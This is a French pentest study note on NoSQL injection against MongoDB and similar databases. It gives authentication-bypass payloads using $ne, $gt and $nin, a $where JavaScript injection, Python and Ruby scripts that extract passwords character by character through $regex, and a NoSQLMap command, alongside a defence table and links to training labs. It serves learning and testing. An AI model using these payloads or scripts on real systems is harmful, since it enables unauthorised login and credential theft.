

# 🍃 NoSQL Injection

> [!info] **En 1 phrase**
> NoSQLi = injecter des **opérateurs NoSQL** (`$ne`, `$gt`, `$regex`, `$where`…) dans une requête **JSON** construite dynamiquement, pour bypasser l'auth, filtrer sur d'autres données ou extraire la base en aveugle.
> Contrairement à la SQLi, **pas de `UNION`** : on manipule la **structure** de l'objet de requête, pas le texte SQL.
>
> Source principale : **[PayloadsAllTheThings (swisskyrepo)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/NoSQL%20Injection/README.md)**

---

## 🎯 Concept



> [!info] 💡 **Pourquoi ça marche**
> Quand l'app injecte l'entrée brute dans un filtre `find({ "username": userInput })`, on remplace la **valeur** attendue par un **objet opérateur** :
> `{ "username": "toto" }` devient `{ "username": { "$ne": "toto" } }` → **"tout sauf toto"**.
> La sémantique de la requête change complètement sans casser la syntaxe.

### Différences clés avec la SQLi

| | SQLi | NoSQLi |
|---|---|---|
| Requête | texte SQL concaténé | objet JSON/BSON construit par le driver |
| Injection | sortir d'une string/quote | remplacer une valeur par un opérateur `$...` |
| Extraction | `UNION`, `GROUP_CONCAT` | `$regex` en aveugle, `$in`, `$where` |
| Base | MySQL, MSSQL, Oracle, PG, SQLite | **MongoDB**, CouchDB, Cassandra (CQL), Redis |
| Union/stacked | courant | **inexistant** (pas de `UNION`, pas de stacked) |

### Bases concernées

- **MongoDB** → opérateurs `$` (le cas le plus courant, exemples ci-dessous)
- **CouchDB** → requêtes JSON sur les vues, injection dans les valeurs de `keys`/`startkey`
- **Cassandra (CQL)** → login bypass syntaxe CQL (`' ALLOW FILTERING; %00`, commentaires)
- **Redis / DynamoDB** → moins documenté, mais même logique d'opérateurs si l'app construit les requêtes dynamiquement

---

## 🕵️ Points d'injection : JSON vs query string

Le même payload change de forme selon la façon dont l'app reçoit la donnée. **Toujours tester les deux.**

### POST avec body JSON

```json
{"username": "admin", "password": "test"}
{"username": {"$ne": null}, "password": {"$ne": null}}
```

### POST url-encoded (PHP / Rails / Node avec querystring)

```
username[$ne]=toto&password[$ne]=toto
login[$regex]=a.*&pass[$ne]=lol
login[$gt]=admin&login[$lt]=test&pass[$ne]=1
login[$nin][]=admin&login[$nin][]=test&pass[$ne]=toto
```

> [!tip] 💡 La syntaxe `champ[opérateur]=valeur` est **parsée en tableau imbriqué** par PHP, Rails et Express.
> Le driver la convertit alors en objet `{ champ: { opérateur: valeur } }` → **l'injection marche sans body JSON**.

### GET (query string)

```
http://target/login?username=admin&password[$regex]=^a
http://target/search?price[$gt]=0
```

### Parsing par langage/framework

| Côté serveur | Body JSON | Query string `x[$ne]=1` |
|---|---|---|
| **Node/Express** (`express.json()`) | objet → driver Mongo | ⚠️ pas toujours parsé en objet |
| **PHP** (`json_decode`) | tableau associatif → driver | ✅ parsé en tableau si pas de `(string)` |
| **Rails** | ✅ objet via params | ✅ tableau |
| **Python/Flask** (`request.json`) | dict → pymongo | ⚠️ selon la lib |

> [!warning] ⚠️ **PHP : le casting tue l'injection**
> Si l'app force le type avec `(string) $_POST['username']`, un tableau PHP devient `"Array"` et l'injection d'opérateurs par query string échoue.
> → Repasser par un **body JSON** (`json_decode` → tableau associatif) ou par un champ non typé.

---

## 🚪 Authentication Bypass

C'est l'usage le plus simple et le plus rentable : **annuler la condition mot de passe**.

### Payloads JSON

```json
{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {"$ne": "foo"}, "password": {"$ne": "bar"}}
{"username": {"$gt": undefined}, "password": {"$gt": undefined}}
{"username": {"$gt": ""}, "password": {"$gt": ""}}
```

- `$ne: null` → matche tout document où le champ **existe** (même vide)
- `$gt: ""` → matche tout ce qui est **après la chaîne vide** = pratiquement tout
- `{"$ne": "toto"}` → tout sauf la valeur testée (si aucun user ne s'appelle toto, tout matche)

### Payloads URL-encodés (query string)

```
username[$ne]=toto&password[$ne]=toto
login[$regex]=a.*&pass[$ne]=lol
login[$gt]=admin&login[$lt]=test&pass[$ne]=1
login[$nin][]=admin&login[$nin][]=test&pass[$ne]=toto
```

### Injection JavaScript dans `$where` (Boolean injection)

Quand un champ est concaténé dans une clause `$where`, on injecte du **JS serveur** :

```js
// Requête vulnérable
db.users.find({ $where: "this.username == '" + username + "' && this.password == '" + password + "'" })

// Injection → ferme la quote, crée une tautologie
username = ' || '1'=='1
password = ' || '1'=='1

// Résultat
db.users.find({ $where: "this.username == '' || '1'=='1' && this.password == '' || '1'=='1'" })
```

> [!warning] ⚠️ `$where` exécute du **JavaScript côté serveur** (SpiderMonkey) : payload boolean de type SQLi, mais aussi **vecteur de DoS/timing** et, sur Mongo vulnérable, de commandes serveur.

---

## 🧩 Injection d'opérateurs

### Table des opérateurs MongoDB

| Opérateur | Signification | Exemple d'abus |
|---|---|---|
| `$eq` | égal | `{"$eq": "admin"}` — forcer une égalité exacte |
| `$ne` | non égal | `{"$ne": null}` — bypass auth |
| `$gt` / `$gte` | supérieur (ou égal) | `{"$gt": ""}`, `{"$gt": 0}` — tout matcher |
| `$lt` / `$lte` | inférieur (ou égal) | borne haute, recherche de plage |
| `$in` | dans une liste | tester des valeurs connues (usernames, mdp) |
| `$nin` | pas dans une liste | exclure des valeurs (`login[$nin][]=admin`) |
| `$regex` | expression régulière | **extraction aveugle**, fingerprint |
| `$exists` | le champ existe | détection de structure, bypass `$ne: null` |
| `$where` | clause JS | injection JS, boolean, timing |

### Injection dans un paramètre (recherche produit)

```js
// Requête initiale
db.products.find({ "price": userInput })

// Au lieu d'un prix, on injecte un objet opérateur
db.products.find({ "price": { "$gt": 0 } })
// → TOUS les produits avec un prix > 0, au lieu d'un seul
```

### Injection dans les paramètres d'une requête GET (query string)

```
/search?price[$gt]=0
/search?price[$gt]=0&price[$lt]=100
/search?category[$ne]=secret
```

### WAF / filtres : duplication de clés

MongoDB ne garde que la **dernière occurrence** d'une clé dupliquée → permet de satisfaire un filtre puis de contourner la condition :

```js
{"id": "10", "id": "100"}
// → la valeur finale de "id" est "100" (le filtre "id=10" est contourné)
```

---

## 🙈 Blind NoSQL (boolean + regex)

### Méthodo

1. Confirmer : payload toujours vrai vs toujours faux (`$ne` vs `$eq` à une valeur inexistante)
2. **Extraire la longueur** avec `$regex` : `.{N}` = N caractères
3. **Extraire caractère par caractère** avec `^m`, `^md`, `^mdp`… (régression par préfixe)
4. Comparer les réponses : si "login OK" quand le regex matche → on a le caractère

### Longueur

```
username[$ne]=toto&password[$regex]=.{1}
username[$ne]=toto&password[$regex]=.{3}
```

### Caractères (blind par regex, "field matching")

```
username[$ne]=toto&password[$regex]=m.{2}
username[$ne]=toto&password[$regex]=md.{1}
username[$ne]=toto&password[$regex]=mdp

username[$ne]=toto&password[$regex]=m.*
username[$ne]=toto&password[$regex]=md.*
```

### Version JSON

```json
{"username": {"$eq": "admin"}, "password": {"$regex": "^m" }}
{"username": {"$eq": "admin"}, "password": {"$regex": "^md" }}
{"username": {"$eq": "admin"}, "password": {"$regex": "^mdp" }}
```

> [!tip] 💡 Raisonnement : `^m` matche → le premier caractère est `m`. On allonge le préfixe `^md` → matche → etc.
> Chaque caractère gagné = **une requête** (ou une binaire `>`, `<` pour aller plus vite).

### Force brute avec `$in` (liste de valeurs connues)

```json
{"username":{"$in":["Admin", "4dm1n", "admin", "root", "administrator"]},"password":{"$gt":""}}
```

### Timing (NoSQL time-based)

- **MongoDB** : `$where` avec une boucle JS coûteuse → réponse lente si la condition est vraie
- **Cassandra** : pas de `SLEEP` → heavy queries uniquement
- Utiliser `{"$where": "function(){ if(this.username == 'admin') { sleep(5000); } }"}` (n'existe pas toujours, tester)

---

## 📤 Extraction de données (scripts)

### POST JSON — Python

```python
import requests, urllib3, string
urllib3.disable_warnings()

username = "admin"
password = ""
u = "http://example.org/login"
headers = {'content-type': 'application/json'}

while True:
    for c in string.printable:
        if c not in ['*','+','.','?','|']:
            payload = '{"username": {"$eq": "%s"}, "password": {"$regex": "^%s" }}' % (username, password + c)
            r = requests.post(u, data=payload, headers=headers, verify=False, allow_redirects=False)
            if 'OK' in r.text or r.status_code == 302:
                print("Found one more char : %s" % (password + c))
                password += c
```

### POST url-encoded — Python

```python
import requests, urllib3, string
urllib3.disable_warnings()

username = "admin"
password = ""
u = "http://example.org/login"
headers = {'content-type': 'application/x-www-form-urlencoded'}

while True:
    for c in string.printable:
        if c not in ['*','+','.','?','|','&','$']:
            payload = 'user=%s&pass[$regex]=^%s&remember=on' % (username, password + c)
            r = requests.post(u, data=payload, headers=headers, verify=False, allow_redirects=False)
            if r.status_code == 302 and r.headers['Location'] == '/dashboard':
                print("Found one more char : %s" % (password + c))
                password += c
```

### GET — Python

```python
import requests, urllib3, string
urllib3.disable_warnings()

username = 'admin'
password = ''
u = 'http://example.org/login'

while True:
    for c in string.printable:
        if c not in ['*','+','.','?','|','#','&','$']:
            payload = f"?username={username}&password[$regex]=^{password + c}"
            r = requests.get(u + payload)
            if 'Yeah' in r.text:
                print(f"Found one more char : {password + c}")
                password += c
```

### GET — Ruby (httpx)

```ruby
require 'httpx'

username = 'admin'
password = ''
url = 'http://example.org/login'
CHARSET = [*'0'..'9', *'a'..'z', '-']
GET_EXCLUDE = ['*','+','.','?','|', '#', '&', '$']
session = HTTPX.plugin(:persistent)

while true
  CHARSET.each do |c|
    next if GET_EXCLUDE.include?(c)
    payload = "?username=#{username}&password[$regex]=^#{password + c}"
    res = session.get(url + payload)
    if res.body.to_s.match?('Yeah')
      puts "Found one more char : #{password + c}"
      password += c
    end
  end
end
```

> [!tip] 💡 **Adapte le marqueur de succès** (`'OK'`, `302` + `Location`, `'Yeah'`) à l'app cible :
> c'est lui qui fait office de **canal booléen**.

---

## 🌐 Selon le langage serveur

| Langage/Stack | Comment l'injection arrive | Piège typique |
|---|---|---|
| **Node.js + Express + Mongoose** | body JSON → objet passé direct au driver | le plus direct, injection quasi sans friction |
| **PHP** (`json_decode` vs POST array) | `username[$ne]=x` → tableau ; `json_decode` → tableau associatif | `(string)`/`(int)` casting casse l'injection |
| **PHP + MongoDB driver** | tableau associatif converti en document BSON | un tableau devient un objet → opérateurs OK |
| **Python (Flask + pymongo)** | `request.json` → dict passé à `find()` | si l'app fait `str(user_input)` → morte |
| **Ruby (Rails)** | params → Hash → driver | `permit` peut bloquer les clés `$` |

### Payloads spécifiques PHP

```php
// PHP : le casting casse l'array injection
$username = (string) $_POST['username'];   // "Array" → injection KO en query string

// PHP : body JSON parsé
$data = json_decode(file_get_contents("php://input"), true);
// {"username": {"$ne": null}, "password": {"$gt": ""}} → injection OK

// PHP : ordre des opérateurs dans un tableau
$_POST['id'][] = 'x';
// {"id": ["x"]}  → $nin / $in sont des tableaux → syntaxe login[$nin][]=admin
```

### Payloads spécifiques Node

```js
// Express : body-parser convertit le JSON en objet JS
app.post('/login', (req, res) => {
  User.findOne({ username: req.body.username, password: req.body.password });
});

// Envoi :
// {"username": {"$gt": ""}, "password": {"$gt": ""}}
```

---

## 🛠️ Outils

| Outil | Rôle |
|---|---|
| **NoSQLMap** (codingo/NoSQLMap) | énumération automatique + exploitation d'apps NoSQL (MongoDB principalement) |
| **Burp-NoSQLiScanner** (matrix) | extension Burp qui détecte les injections NoSQL |
| **nosqlilab** (digininja) | lab local d'entraînement aux injections NoSQL |
| **Wordlists** (cr0hn/nosqlinjection_wordlists) | payloads opérateurs pour fuzzing |
| **Scripts Python/Ruby** (ci-dessus) | blind par regex, extraction caractère par caractère |

```bash
# NoSQLMap
nosqlmap --target http://target --method POST --data 'username=admin&password=test'
```

---

## 🔍 Détection & Défense

| Réponse | Détail |
|---|---|
| **Validation de types** | Ne jamais passer l'objet utilisateur brut à `find()` : forcer les types (string, int, ObjectId), rejeter les clés commençant par `$` |
| **Requêtes paramétrées / drivers modernes** | Utiliser les API typées des drivers (Mongoose Schemas, paramètres typés) au lieu de concaténer |
| **Pas de `$where` / `$function`** | Interdire le JS côté requête, ou au minimum ne jamais y concaténer d'entrée |
| **Sanitize des opérateurs** | Blacklist/strip des clés `$` (`$ne`, `$gt`, `$regex`, `$where`…) avant de construire la requête |
| **Moindre privilège** | Compte BDD read-only si possible, pas d'accès à l'admin BDD depuis l'app |
| **Masquer les erreurs** | Pas de stacktrace MongoDB → force l'attaquant en blind |
| **WAF** | Règle basique, contournable (duplication de clés, double encodage, body JSON) |
| **Limites de longueur** | Entrées courtes = moins de place pour `$where`/regex lourds |

---

## ⚠️ Tips & Pièges

> [!tip] 💡 **Ordre logique d'attaque**
> 1. Tester **JSON body ET query string** (le parsing diffère par framework)
> 2. Confirmer avec `{"$ne": null}` (toujours vrai) vs `{"$eq": "valeur_inexistante"}` (toujours faux)
> 3. Bypass auth (`$ne`, `$gt: ""`, `$nin`)
> 4. Extraction blind par `$regex` (`.{N}` puis `^prefixe`)
> 5. Passer aux outils (NoSQLMap, Burp-NoSQLiScanner) pour valider en masse

> [!tip] 💡 **Détails qui font gagner du temps**
> - L'**ordre des opérateurs** dans un objet compte : `{"price": {"$gt": 0, "$lt": 100}}` définit une plage → penser aux **bornes** (`$gt`/`$lt` combinés).
> - L'**équivalent du `ORDER BY`** : le paramètre `sort` (`?sort=price:1`) est aussi injectable si construit dynamiquement.
> - Comment le **driver parse** : en PHP, `login[$nin][]=admin` → `["$nin" => ["admin"]]` ; en JSON, `{"login": {"$nin": ["admin"]}}`.
> - Les **erreurs révélatrices** : `$where` avec un mauvais payload JS → erreur "ReferenceError" qui confirme Mongo + un champ `$where`.
> - **`{"$gt": undefined}`** peut être envoyé comme `null` dans certains clients → tester `{"$gt": ""}` et `{"$gt": null}`.

> [!warning] ⚠️ **Pièges**
> - **Pas de `UNION`** en NoSQL : ne perds pas de temps sur les payloads SQLi classiques.
> - Le **casting PHP** (`(string)`, `(int)`) casse l'injection par query string → repasser en body JSON.
> - `$where` = **JS serveur** : un payload malveillant peut faire **planter/ralentir la BDD** (DoS). Teste avec prudence.
> - Les **regex lourdes** (`.*`, `.*.*`) sur de gros datasets = CPU BDD = DoS involontaire.
> - Payload toujours-vrai sur un endpoint qui **supprime/modifie** = risque de tout matcher.
> - **`$nin: []`** (liste vide) matche tout — pratique pour tester, dangereux en réel.
> - CouchDB : les injections s'exploitent dans les **valeurs de vues** (`startkey`/`endkey`), pas dans des opérateurs `$`.

---

## 🧪 Labs

- Root-Me — NoSQL injection Authentication : https://www.root-me.org/en/Challenges/Web-Server/NoSQL-injection-Authentication
- Root-Me — NoSQL injection Blind : https://www.root-me.org/en/Challenges/Web-Server/NoSQL-injection-Blind
- nosqlilab (digininja) — lab local : https://github.com/digininja/nosqlilab

---

## 🔗 Liens

- [[Injection SQL|💾 SQLi]]
- [[XSS (Cross-Site Scripting)|🖼️ XSS]]
- [[GraphQL|🌀 GraphQL]]
- → Note complète : [[03 - Exploitation Web|🌍 Exploitation Web]]
- 📚 Source : [PayloadsAllTheThings — NoSQL Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/NoSQL%20Injection/README.md)
- 📚 Ref : [OWASP — Testing for NoSQL injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05.6-Testing_for_NoSQL_Injection)
